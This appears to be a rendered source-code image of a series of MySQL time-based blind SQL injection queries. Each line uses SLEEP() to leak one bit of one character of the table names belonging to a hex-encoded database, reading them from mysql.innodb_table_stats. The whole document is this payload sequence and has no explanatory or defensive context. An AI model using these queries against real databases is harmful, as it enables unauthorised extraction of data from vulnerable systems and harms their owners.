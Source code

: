 ```sql
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 7, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 7, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 7, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 7, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 7, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 7, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 8, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 8, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 8, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 8, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 8, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 8, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 8, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 8, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 9, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 9, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 9, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 9, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 9, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 9, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 9, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 9, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 10, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 10, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 10, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 10, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 10, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 10, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 10, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 10, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 11, 1)) >> 7 & 1) * .5)
```